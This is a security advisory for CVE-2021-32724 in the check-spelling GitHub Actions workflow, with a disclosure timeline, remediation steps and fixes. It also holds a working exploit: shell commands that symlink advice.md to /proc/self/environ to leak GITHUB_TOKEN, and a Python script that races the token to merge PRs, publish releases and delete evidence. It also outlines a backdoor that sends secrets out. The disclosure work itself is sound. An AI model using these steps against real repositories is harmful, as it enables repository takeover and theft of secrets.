

# GitHub Actions `check-spelling` community workflow - `GITHUB_TOKEN` leakage via `advice.txt` symlink

CVE-2021-32724

<https://twitter.com/justinsteven>

## Summary

The [`check-spelling`](https://github.com/marketplace/actions/check-spelling) GitHub Actions community workflow is a spell checker for GitHub commits. When the workflow is enabled on a given repository, it is activated whenever a Pull Request is made to that repo. The workflow checks the spelling according to a configuration defined by the repo, and submits a Pull Request comment showing the details of any spelling errors.

For a repo configured to use the `check-spelling` workflow, an attacker can submit a Pull Request which contains a spelling error and which also has a symbolic link pointing from `.github/actions/advice.txt` to `/proc/self/environ`. When this malicious Pull Request is processed by the `check-spelling` workflow, the workflow will post a comment to the Pull Request which contains a full dump of the GitHub Actions environment variables. This discloses a short-lived [`GITHUB_TOKEN`](https://docs.github.com/en/actions/reference/authentication-in-a-workflow) API key. The attacker can retrieve this API key and can perform sensitive operations on behalf of the target repo, such as:

* Deleting comments in any Pull Request thread
* Merging any Pull Request, including the Pull Request that triggered the workflow
* Publishing [releases](https://docs.github.com/en/github/administering-a-repository/releasing-projects-on-github/about-releases) containing arbitrary assets
* Creating and updating [tags](https://git-scm.com/book/en/v2/Git-Basics-Tagging)

This gives the attacker significant control over the repo. The attacker could use the vulnerability to merge a malicious pull request to the repo, introducing malicious code to the project.

[The workflow is used by approximately 35 public repos](https://github.com/search?q=check-spelling+pull_request_target+checkout+path%3A.github%2Fworkflows&type=Code) (excluding forks) at the time of writing, including:

* [imazen/imageflow](https://github.com/imazen/imageflow)
* [jekyll/jekyll](https://github.com/jekyll/jekyll)
* [microsoft/PowerToys](https://github.com/microsoft/PowerToys)
* [microsoft/terminal](https://github.com/microsoft/terminal)
* [microsoft/winget-cli](https://github.com/microsoft/winget-cli)
* [nasa/fprime](https://github.com/nasa/fprime/)
* [PowerDNS/pdns](https://github.com/PowerDNS/pdns)
* [check-spelling/check-spelling](https://github.com/check-spelling/check-spelling) itself

There may also be private repos which use the workflow. These won't appear in such a search.

Interestingly, the `check-spelling` repo itself is configured to use `check-spelling`. Thus, the vulnerability could be exploited to add malicious code to the workflow. Any subsequent Pull Request made to a repo, including private a repo, which is configured to automatically uses the latest version of the workflow (Which is the default configuration) will execute the compromised workflow. Finally, the vulnerability could be exploited to re-point existing `check-spelling` tags to new, malicious commits, which would also impact users of explicitly pinned versions of the workflow.

Note that this is not a vulnerability in the GitHub Actions facility. This is a workflow-level vulnerability in the `check-spelling` community/marketplace workflow.

Users of the `check-spelling` workflow should see the section titled "Actions needed" for remediation guidance.

The `check-spelling` project has also prepared an advisory at <https://github.com/check-spelling/check-spelling/security/advisories/GHSA-g86g-chm8-7r2p>. Note that it is unpublished as of the time of writing.

## Actions needed

For GitHub repos that are configured to use the `check-spelling` workflow, verify that you are using `check-spelling/check-spelling@<VERSION>` where `<VERSION>` is one of 'main', 'prerelease', 'v0.0.19' or higher, or a SHA1 hash of a commit that belongs to the tag 'v0.0.19' or higher.

Importantly, you must do this **for every open branch** in your repo. It is not enough to do so for only your default branch since a malicious PR can target any of your open branches. That is, if you have an open branch that uses a vulnerable version of `check-spelling` then a malicious PR targeting that branch can leak a `GITHUB_TOKEN` which can then be used to impact any of your branches, including your default branch.

Alternatively, if you have many open branches that you do not want to update or delete, you can do the following:

1. Ensure the branches in which you want `check-spelling` to execute use an up to date version
2. Rename the `spelling.yml` file in the branches from step 1 to something else (e.g. `spelling2.yml`)
3. Create a dummy `spelling.yml` file on the default branch
4. [Disable the execution of workflows](https://docs.github.com/en/actions/managing-workflow-runs/disabling-and-enabling-a-workflow) named `spelling.yml`

The reason for step 3 is that if there is no file named `spelling.yml` on the default branch, the disabling of the workflow in step 4 appears to be unreliable.

## Disclosure timeline

* 21 June 2021 - Courtesy notice sent to Microsoft MSRC to notify them of an upcoming advisory regarding `check-spelling`
* 25 June 2021 - Draft advisory sent to MSRC as a courtesy
* 26 June 2021 - Draft advisory sent to maintainer of `check-spelling`
* 27 June through 3 July 2021 - Worked with [@jsoref](https://github.com/jsoref), the maintainer of `check-spelling`, on a tactical fix (described below)
* 30 June 2021 - GitHub Security assigns CVE-2021-32724
* 13 July 2021 - [Update to `check-spelling` released (v0.0.19)](https://github.com/check-spelling/check-spelling/releases/tag/v0.0.19)
* 9 September 2021 - This advisory is published

## Background - GitHub Actions and the riskiness of `pull_request_target`

[GitHub Actions](https://github.com/features/actions) is a CI/CD facility provided by GitHub. It allows repo owners to specify a sequence of workflows which can be executed manually, on a schedule, or in response to a [variety of events](https://docs.github.com/en/actions/reference/events-that-trigger-workflows) such as upon receiving a Pull Request targeting the repo.

A [Pull Request](https://docs.github.com/en/github/collaborating-with-pull-requests/proposing-changes-to-your-work-with-pull-requests/about-pull-requests) is a request from a contributor to the owner of a repo, asking for changes made by the contributor to be incorporated into the owner's repo. To put it another way, it is a submission of new code for inclusion into an existing project.

The GitHub Marketplace provides a [catalogue of community workflows](https://github.com/marketplace?type=actions) that can be incorporated into a repo's set of GitHub Actions workflows.

Jaroslav Lobacevski (@jarlob) from the GitHub Security Lab published an excellent blog post titled [Keeping your GitHub Actions and workflows secure: Preventing pwn requests](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/). If you are unfamiliar with GitHub Actions and the abuse of vulnerable configurations, it is well worth a read.

The gist of the article is as follows. Consider a GitHub repo which has a GitHub Actions workflow that:

1. Triggers on the `pull_request_target` event type; and
2. Performs an explicit checkout of the Pull Request branch (i.e. checks out the content being submitted for inclusion in the target repo); and
3. Uses the state of the checked out branch in an unsafe manner (e.g. by building the repo using `make` or by installing packages using a package manager)

Such a workflow can be abused to steal or use a [`GITHUB_TOKEN`](https://docs.github.com/en/actions/reference/authentication-in-a-workflow) value that belongs to the target repo. By default, this token has read/write privileges for the repo that the workflow is running in.

@jarlob's article gives the following example of a vulnerable workflow:

```yaml
# INSECURE. Provided as an example only.
on:
  pull_request_target

jobs:
  build:
    name: Build and test
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v2
      with:
        ref: ${{ github.event.pull_request.head.sha }}

    - uses: actions/setup-node@v1
    - run: |
        npm install
        npm build

    - uses: completely/fakeaction@v2
      with:
        arg1: ${{ secrets.supersecret }}

    - uses: fakerepo/comment-on-pr@v1
      with:
        message: |
          Thank you!
```

Note that the workflow triggers on `pull_request_target` and performs an explicit checkout of the branch being proposed in a Pull Request (`github.event.pull_request.head.sha`). The workflow goes on to run `npm install` and `npm build`, which will be done according to the `package.json` file in the attacker-controlled branch. Finally, the workflow gives a hint as to the name of a secret (`secrets.supersecret`) that the target GitHub repo has stored in its [secrets facility](https://docs.github.com/en/actions/reference/encrypted-secrets).

An attacker could fork the repo and create a branch. Within that branch, `package.json` could be modified so that attacker-specified actions are performed when `npm install` or `npm build` are executed. Those attacker-specified actions could make use of the GitHub API token that is "stored in memory" according to @jarlob's post, and is specified within `.git/config` having performed a `checkout` operation that does not specify the optional `persist-credentials` parameter as being `false`. Finally, the attacker could submit a Pull Request to the target repo, asking for the changes in the attacker's branch to be merged into the target. Upon receiving this Pull Request, the workflow will spring to life and will do `npm install` and `npm build`, triggering the attacker's defined actions in the privileged context. This exposes the GitHub API token to attacker-controlled code, which can be used to impact the integrity of the repo.

## Back to `check-spelling`

We will discuss the following:

1. How to install the `check-spelling` workflow into a repo
2. A demo of how the workflow usually works
3. How to use a symlink to cause it to disclose sensitive information in a Pull Request comment
4. A demo of the disclosure of sensitive information
5. How to use the exposed sensitive information to manipulate the target repo
6. A demo of manipulating the target repo
7. A suggested short-term tactical fix and long-term strategic hardening
8. The fix that was implemented
9. A description of opportunities for further research and exploit improvement

## Installation of the `check-spelling` Github Actions workflow

The `check-spelling` workflow provides [installation instructions](https://github.com/marketplace/actions/check-spelling#basic-configuration) which say:

> Just copy the [`spell-check-this`](https://github.com/check-spelling/spell-check-this) [`.github`](https://github.com/check-spelling/spell-check-this/tree/main/.github) directory into your project.

The provided `.github` directory has the following contents:

* `.github/workflows/spelling.yml` - a YAML file that will execute the `check-spelling` community workflow when the repo receives a Pull Request. Shown below.
* `.github/actions/spelling/*.{txt,md}` - various configuration files that govern the execution of the `check-spelling` workflow. Described below.

### `spelling.yml`

`spelling.yml`, [as of the time of writing](https://github.com/check-spelling/spell-check-this/blob/1d244cf41342bb320395027c6663df959a763d49/.github/workflows/spelling.yml), is as follows:

```yaml
name: Spell checking
on:
  pull_request_target:
  push:
  issue_comment:

jobs:
  spelling:
    name: Spell checking
    runs-on: ubuntu-latest
    steps:
    - name: checkout-merge
      if: "contains(github.event_name, 'pull_request')"
      uses: actions/checkout@v2
      with:
        ref: refs/pull/${{github.event.pull_request.number}}/merge
    - name: checkout
      if: ${{ github.event_name == 'push' ||
        (
          contains(github.event.comment.body, '@check-spelling-bot apply')
        ) }}
      uses: actions/checkout@v2
    - uses: check-spelling/check-spelling@main
      id: spelling
      if: ${{ github.event_name != 'issue_comment' ||
        (
          contains(github.event.comment.body, '@check-spelling-bot apply')
        ) }}
      with:
        experimental_apply_changes_via_bot: 1
```

The workflow specifies that it should trigger on the `pull_request_target` event (This is the risky event discussed above), upon `push` events (i.e. direct pushes to the repo by someone who has write permissions), as well as upon the `issue_comment` event (which allows a user to automatically apply suggested fixes by posting a Pull Request comment). The `issue_comment` functionality was not analysed and will not be further discussed in this advisory.

The workflow goes on to perform an explicit checkout of the PR branch if it was triggered by the `pull_request_target` event.

Finally, the workflow executes the `check-spelling` workflow as defined in the [`check-spelling/check-spelling` repo](https://github.com/check-spelling/check-spelling). More specifically, the latest commit in the `main` branch is what will be executed.

This meets two of the three vulnerability criteria as discussed in the Background section above:

1. The workflow triggers on the risky `pull_request_target` event type
2. The workflow performs an explicit checkout of the Pull Request branch (i.e. checks out the content being submitted for inclusion in the target repo)

If the workflow can be shown to use the state of the checked out repo in an unsafe manner then an attacker could submit a Pull Request that causes the GitHub Actions engine to use or leak the `GITHUB_TOKEN` value, allowing the attacker to obtain write permissions for the target repo.

### `actions/spelling/*.{txt,md}`

Returning to the other files in the provided [`.github` directory](https://github.com/check-spelling/spell-check-this/tree/main/.github), the `actions/spelling/` directory contains a number of `.txt` and `.md` files. These are sample configuration files that are further described in the [workflow's documentation](https://github.com/check-spelling/check-spelling/wiki/Configuration#Files). Of particular note is the `advice.md` file which, if it exists, will be [appended to the comment that the workflow posts to the Pull Request](https://github.com/check-spelling/check-spelling/blob/ead83f4596b4aac06f698b501b5beb3218f6214d/unknown-words.sh#L425-L429) if any spelling errors are discovered.

## Demo of the `check-spelling` GitHub Actions workflow

Log in to GitHub as a user who will own the repo. I will be using the user "imploreduproar".

Create a GitHub repo at <https://github.com/new>.

Create an empty git repo on the local filesystem:

```plain
implored@localhost ~ % cd $(mktemp -d)

implored@localhost /tmp/tmp.t0JLz7T1ua % git init
Initialized empty Git repository in /tmp/tmp.t0JLz7T1ua/.git/
```

Install `check-spelling` within the repo per the installation instructions:

```plain
implored@localhost /tmp/tmp.t0JLz7T1ua % tmpdir=$(mktemp -d)

implored@localhost /tmp/tmp.t0JLz7T1ua % git -C $tmpdir clone --depth=1 https://github.com/check-spelling/spell-check-this.git
Cloning into 'spell-check-this'...
remote: Enumerating objects: 13, done.
remote: Counting objects: 100% (13/13), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 13 (delta 0), reused 8 (delta 0), pack-reused 0
Receiving objects: 100% (13/13), done.

implored@localhost /tmp/tmp.t0JLz7T1ua % cp -R $tmpdir/spell-check-this/.github .

implored@localhost /tmp/tmp.t0JLz7T1ua % git add .github/

implored@localhost /tmp/tmp.t0JLz7T1ua % git commit -m "Add check-spelling workflow"
[main (root-commit) d5c1ee1] Add check-spelling workflow
 8 files changed, 101 insertions(+)
 create mode 100644 .github/actions/spelling/README.md
 create mode 100644 .github/actions/spelling/advice.md
 create mode 100644 .github/actions/spelling/allow.txt
 create mode 100644 .github/actions/spelling/excludes.txt
 create mode 100644 .github/actions/spelling/expect.txt
 create mode 100644 .github/actions/spelling/patterns.txt
 create mode 100644 .github/actions/spelling/reject.txt
 create mode 100644 .github/workflows/spelling.yml

implored@localhost /tmp/tmp.t0JLz7T1ua % git remote add origin git@github.com:imploreduproar/spellchecked.git

implored@localhost /tmp/tmp.t0JLz7T1ua % git branch -M main

implored@localhost /tmp/tmp.t0JLz7T1ua % git push -u origin main
Enumerating objects: 13, done.
Counting objects: 100% (13/13), done.
Delta compression using up to 8 threads
Compressing objects: 100% (9/9), done.
Writing objects: 100% (13/13), 2.55 KiB | 435.00 KiB/s, done.
Total 13 (delta 0), reused 0 (delta 0), pack-reused 0
To github.com:imploreduproar/spellchecked.git
 * [new branch]      main -> main
Branch 'main' set up to track remote branch 'main' from 'origin'.
```

Log in to GitHub as a second user. I will be using the user "gleefulatlantis".

Fork the repo that was created above via the GitHub web UI.

Clone the forked repo:

```plain
gleeful@localhost ~ % cd $(mktemp -d)

gleeful@localhost /tmp/tmp.3TqvdtNdiJ % git clone git@github.com:gleefulatlantis/spellchecked.git
Cloning into 'spellchecked'...
remote: Enumerating objects: 13, done.
remote: Counting objects: 100% (13/13), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 13 (delta 0), reused 13 (delta 0), pack-reused 0
Receiving objects: 100% (13/13), done.

gleeful@localhost /tmp/tmp.3TqvdtNdiJ % cd spellchecked
```

Create a new branch within the cloned repo:

```plain
gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git checkout -b my_contribution
Switched to a new branch 'my_contribution'
```

Commit and push a new file that introduces a spelling error:

```plain
gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % echo "The quikc brown fox jumps over the lazy dog" > notice.txt

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git add notice.txt

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git commit -m "Add misspelled notice"
[my_contribution 14f1eab] Add misspelled notice
 1 file changed, 1 insertion(+)
 create mode 100644 notice.txt

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git push -u origin my_contribution
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 8 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 331 bytes | 331.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
remote:
remote: Create a pull request for 'my_contribution' on GitHub by visiting:
remote:      https://github.com/gleefulatlantis/spellchecked/pull/new/my_contribution
remote:
To github.com:gleefulatlantis/spellchecked.git
 * [new branch]      my_contribution -> my_contribution
Branch 'my_contribution' set up to track remote branch 'my_contribution' from 'origin'.
```

Browse to the provided URL to create a new Pull Request:



Upon creation of the Pull Request, the `check-spelling` workflow will identify the spelling error in the proposed change and will post a comment showing the misspelled word:


## Abuse of `advice.md` using symbolic links

Recall that the `check-spelling` workflow can be configured via the files in `.github/actions/spelling/`. One of these files is `advice.md` which is incorporated into the Pull Request comment posted by the `check-spelling` workflow. Importantly, **it is the `advice.md` within the Pull Request submitter's branch that will be used by the workflow**. Furthermore, it is possible to include symbolic links within git repos, including symbolic links to files outside of the repo. By creating a symbolic link named `.github/actions/spelling/advice.md` that points to `/proc/self/environ`, the Pull Request submitter can cause the workflow to leak the contents of the GitHub Actions environment within a Pull Request comment. In the case of the `check-spelling` workflow, the environment can be shown to include a `INPUT_GITHUB_TOKEN` value which can further be shown to be a short-lived GitHub API key that provides read and write permissions as the target repo.

## Demo of symbolic link abuse

Continuing on from where our previous demo left off, as the Pull Request submitter user (gleefulatlantis), push a commit to the existing Pull Request branch which causes the `advice.md` file to be a symlink to `/proc/self/environ`:

```plain
gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % rm .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % ln -s /proc/self/environ .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git add .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git commit -m "Symlink advice.md to environ"
[my_contribution 874716f] Symlink advice.md to environ
 1 file changed, 1 insertion(+), 27 deletions(-)
 rewrite .github/actions/spelling/advice.md (100%)
 mode change 100644 => 120000

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git push
Enumerating objects: 11, done.
Counting objects: 100% (11/11), done.
Delta compression using up to 8 threads
Compressing objects: 100% (4/4), done.
Writing objects: 100% (6/6), 513 bytes | 513.00 KiB/s, done.
Total 6 (delta 1), reused 0 (delta 0), pack-reused 0
remote: Resolving deltas: 100% (1/1), completed with 1 local object.
To github.com:gleefulatlantis/spellchecked.git
   14f1eab..874716f  my_contribution -> my_contribution
```

By pushing this commit to the Pull Request's source branch, the `check-spelling` workflow will re-evaluate the contents of the source branch and will again post a comment showing the spelling errors. The text of this comment will include the contents of the `advice.md` file, and hence will disclose the contents of `/proc/self/environ`.


As shown, the environment contains the value of `INPUT_GITHUB_TOKEN`.

## Racing the invalidation of the `GITHUB_TOKEN` and using it to compromise the repo

As previously mentioned, the `GITHUB_TOKEN` value is short-lived, and is invalidated once the workflow finishes executing. However, this invalidation can be raced. Racing the invalidation to get one post-exploitation action to occur is very reliable. However, note that trying to execute multiple actions is unreliable as the `GITHUB_TOKEN` is invalidated very shortly after the workflow finishes. A workaround for this is discussed below.

Putting this unreliability aside for now, we will:

1. Repeatedly poll the Pull Request comments for any comment that contains an `INPUT_GITHUB_TOKEN` value.
2. Extract the `INPUT_GITHUB_TOKEN` values from the Pull Request comment.
3. For any `INPUT_GITHUB_TOKEN` that we have not already seen, use it to do the following:
    1. Merge the Pull Request
    2. Create a new Release with an attached asset 
    3. Delete any comments within the Pull Request that contain the string `INPUT_GITHUB_TOKEN` to attempt to conceal the breach

A proof of concept script that does this is given in Appendix A of this advisory.

It is important to use a [Personal Access Token](https://docs.github.com/en/github/authenticating-to-github/keeping-your-account-and-data-secure/creating-a-personal-access-token) to authenticate to the GitHub API as yourself for step 1 of the process. Otherwise you'll bump up against [GitHub's IP rate limiting](https://docs.github.com/en/rest/overview/resources-in-the-rest-api#rate-limiting) for anonymous access very quickly.

As mentioned above, the token often becomes invalid partway through the list of actions. There are two potential options for coping with this limitation:

1. Perform multiple Pull Requests to achieve the full list of actions, leaking a fresh `GITHUB_TOKEN` value each time; or
2. Use the vulnerability to introduce a long-running backdoor workflow through which the full list of actions can be performed. This is explained in greater depth in the section titled "Opportunities for further research and exploit improvement".

## Demo of using the leaked `GITHUB_TOKEN`

Generate a Personal Access Token as our attacker user (gleefulatlantis) at <https://github.com/settings/tokens>.

Kick off the script given in Appendix A, pointing it at the next available Pull Request number. Note that it'll spin and wait for the Pull Request to become available.

```plain
gleeful@localhost % ./race_githubtoken.py
usage: race_githubtoken.py [-h] --owner OWNER --repo REPO --pr PR --pat PAT
race_githubtoken.py: error: the following arguments are required: --owner, --repo, --pr, --pat

gleeful@localhost % PAT='ghp_<REDACTED>'

gleeful@localhost % ./race_githubtoken.py --owner imploreduproar --repo spellchecked --pr 2 --pat $PAT
[+] Waiting for GITHUB_TOKEN values to appear in #2
[!] Warning: get_comments returned 404. Maybe you haven't submitted the PR yet?
[!] Warning: get_comments returned 404. Maybe you haven't submitted the PR yet?
[!] Warning: get_comments returned 404. Maybe you haven't submitted the PR yet?

[... SNIP ...]
```

Within the context of the checked out fork of the victim repo, switch back to the main branch and then create a fresh attack branch.

```plain
gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git checkout main
Switched to branch 'main'
Your branch is up to date with 'origin/main'.

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git checkout -b attack
Switched to a new branch 'attack'
```

Create a file that contains a misspelling, and which symlinks `advice.md` to `/proc/self/environ`:

```plain
gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % echo 'Helllo world!' > notice.txt

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % rm .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % ln -s /proc/self/environ .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git add notice.txt .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git commit -m "My contribution"
[attack b00673f] My contribution
 2 files changed, 2 insertions(+), 27 deletions(-)
 rewrite .github/actions/spelling/advice.md (100%)
 mode change 100644 => 120000
 create mode 100644 notice.txt

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git push -u origin attack
Enumerating objects: 12, done.
Counting objects: 100% (12/12), done.
Delta compression using up to 8 threads
Compressing objects: 100% (4/4), done.
Writing objects: 100% (7/7), 524 bytes | 524.00 KiB/s, done.
Total 7 (delta 1), reused 0 (delta 0), pack-reused 0
remote: Resolving deltas: 100% (1/1), completed with 1 local object.
remote:
remote: Create a pull request for 'attack' on GitHub by visiting:
remote:      https://github.com/gleefulatlantis/spellchecked/pull/new/attack
remote:
To github.com:gleefulatlantis/spellchecked.git
 * [new branch]      attack -> attack
Branch 'attack' set up to track remote branch 'attack' from 'origin'.
```
Browse to the provided URL to create a new Pull Request.

Upon receiving the Pull Request, the repo will invoke the `check-spelling` workflow.

Once the `check-spelling` workflow has completed, and has posted a comment to the Pull Request containing the details of the spelling error, note that the `race_githubtoken.py` script has found a `GITHUB_TOKEN` value within it and has used it to:

1. Merge the Pull Request
2. Create a Release
3. Delete the comment containing the `GITHUB_TOKEN` value

```plain
[... SNIP ...]

[!] Warning: get_comments returned 404. Maybe you haven't submitted the PR yet?
[!] Warning: get_comments returned 404. Maybe you haven't submitted the PR yet?
40 iterations performed
60 iterations performed
80 iterations performed
100 iterations performed
[^] Found new token: ghs_<REDACTED>
Merging pull request 2
Creating release called 'Emergency release' with a file called 'release.bin' of 2925 bytes
Scrubbing comments containing INPUT_GITHUB_TOKEN=
--> Deleting https://api.github.com/repos/imploreduproar/spellchecked/issues/comments/868222159
Done!

gleeful@localhost %
```

The Pull Request was automatically merged and the comment containing the `GITHUB_TOKEN` value was deleted:


A new Release was created:


Viewing the contents of the `release.bin` file, we get:

```plain
gleeful@localhost % curl -sL 'https://github.com/imploreduproar/spellchecked/releases/download/5256f01a12b7455e8fca82dc703a36ee/release.bin' | head -n13
          . . : : The Hacker's Manifesto : : . .

Another one got caught today, it's all over the papers. "Teenager
arrested in computer crime scandal", "Hacker arrested after bank
tampering"...

Damn Kids. They're all alike.

But did you, in your three-piece psychology and 1950's technobrain ever
take a look behind the eyes of a hacker? Did you ever wonder what made
him tick, what forces shaped him, what may have molded him?

I am a hacker, enter my world...
```

## Suggested fix

A suggested **tactical fix** for this vulnerability is for the workflow to ensure that none of the configuration files in `.github/actions/spelling/` are symbolic links. By making such a change in the `check-spelling/check-spelling` repo, any repo that is using the `main` branch of the workflow will automatically pick up the mitigation. Any repo that is pinned to a vulnerable version of `check-spelling` would need to bump their pin.

A long-term **strategic hardening** could be to consider separating the "Perform the spell checking and generate the Pull Request comment" logic from the "Post the Pull Request comment" logic using the `workflow_run` workflow trigger. This pattern is described in [Keeping your GitHub Actions and workflows secure: Preventing pwn requests](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/). In doing so, my understanding is that the risky activities of spell-checking the attacker-controlled content and generating the Pull Request comment can be done in a low-privilege context (where the `GITHUB_TOKEN` has only read-access to the destination repo) and the simpler, high-privilege activity of simply posting the generated comment can be done in an elevated context (with a `GITHUB_TOKEN` that has write access to the destination repo). Even if a `GITHUB_TOKEN` was to leak into the contents of the Pull Request comment at the time of generation, it would not be a useful token for an attacker to steal.

## Actual fix

I worked with the maintainer of `check-spelling` to develop and test the tactical fix proposed above. The implemented fix only allows files within `.github/actions/spelling/` that are symlinks to files within the repo, but are not within a directory named `.git` (To protect against leakage of `.git/config` which contains a copy of the `GITHUB_TOKEN`).

While developing the fix, we discovered that there was also a potential exposure when symlink files were being spellchecked by the engine. Although it was not as immediately exploitable as the technique detailed in this advisory, the decision was made to never respect symlinks when doing spellchecking of files themselves.

Repos that consume `check-spelling` should see the earlier section titled "Actions needed".

The `check-spelling` project plans to investigate and hopefully implement the strategic fix, mitigating any other potential issues.

## Opportunities for further research and exploit improvement

The proof of concept exploitation discussed in this advisory could be extended with further work. For instance, if an attacker has knowledge of the names of secrets in the repo's [secrets facility](https://docs.github.com/en/actions/reference/encrypted-secrets) then the following attack might be feasible.

Implement (i.e. code) a **new** backdoor GitHub Actions workflow that does the following:

1. Is triggered on `pull_request_target` events, giving it access to a high-privilege `GITHUB_TOKEN` value as well as the ability to have the values of the known secrets exposed to it.
2. Is [given exposure to the secrets stored in the secrets facility by name](https://docs.github.com/en/actions/reference/encrypted-secrets#using-encrypted-secrets-in-a-workflow).
3. Phones the secrets and the value of the `GITHUB_TOKEN` home to the attacker
4. Sleeps until told to resume by the attacker, or for a defined amount of time

Given this implemented backdoor workflow, the attacker could:

1. Use the `check-spelling` vulnerability to send a self-landing Pull Request that adds the above backdoor workflow to the repo.
2. Send a Pull Request that reverts the changes made in step 1 and makes any other desired changes. Upon receiving the Pull Request, the backdoor workflow will execute, sending the `GITHUB_TOKEN` and the value of secrets to the attacker before going to sleep.
3. Use the `GITHUB_TOKEN` learned from step 2 to merge the Pull Request from step 2, and to delete comments from both Pull Requests to try to conceal the breach.
4. Use the `GITHUB_TOKEN` for any other purpose, such as creating releases.
6. Tell the workflow triggered in step 2 that it can stop sleeping, allowing the workflow to complete and the `GITHUB_TOKEN` to be invalidated.

Such an attack would effectively leak the value of secrets to the attacker and would allow the attacker to reliably make any desired changes to the repo's contents and its releases at the attacker's leisure. It would have a forensic footprint of at least two automatically merged Pull Requests.

## Appendix A - `race_githubtoken.py`

Scrapes a `GITHUB_TOKEN` out of a Pull Request's comment thread and rushes to use it before it becomes invalid.

```python
#!/usr/bin/env python3
import argparse
import itertools
import re
import requests
from typing import Optional, List
from uuid import uuid4
from urllib.parse import quote_plus


class Racer:
    def __init__(self, owner: str, repo: str, pr: int, pat: Optional[str] = None):
        self.owner, self.repo, self.pr, self.pat = owner, repo, pr, pat
        self.session = requests.Session()

    def get_comments(self) -> List:
        url = "https://api.github.com/repos/{owner}/{repo}/issues/{pr}/comments".format(
            owner=quote_plus(self.owner),
            repo=quote_plus(self.repo),
            pr=quote_plus(str(self.pr)),
        )
        headers = {} if self.pat is None else {"Authorization": f"Bearer {self.pat}"}
        r = self.session.get(url, headers=headers, timeout=5)
        r.raise_for_status()
        return r.json()

    @staticmethod
    def get_tokens_from_comments(comments: list):
        # Hack - assumes the token is immediately followed by INPUT_* or GITHUB_*
        token_pattern = re.compile(r"INPUT_GITHUB_TOKEN=(\S*?)(INPUT|GITHUB)_")
        for comment in comments:
            for match in token_pattern.findall(comment["body"]):
                yield match[0]

    def scrub_comments(self, comments: list, token: str, needle: str = "INPUT_GITHUB_TOKEN="):
        print(f"Scrubbing comments containing {needle}")
        for comment in comments:
            if needle in comment["body"]:
                comment_url = comment["url"]
                print(f"--> Deleting {comment_url}")
                r = self.session.delete(comment_url, headers={"Authorization": f"Bearer {token}"}, timeout=5)
                r.raise_for_status()

    def merge_pr(self, token: str, pr: Optional[int] = None):
        pr = self.pr if pr is None else pr
        print(f"Merging pull request {pr}")
        url = "https://api.github.com/repos/{owner}/{repo}/pulls/{pr}/merge".format(
            owner=quote_plus(self.owner),
            repo=quote_plus(self.repo),
            pr=quote_plus(str(pr)),
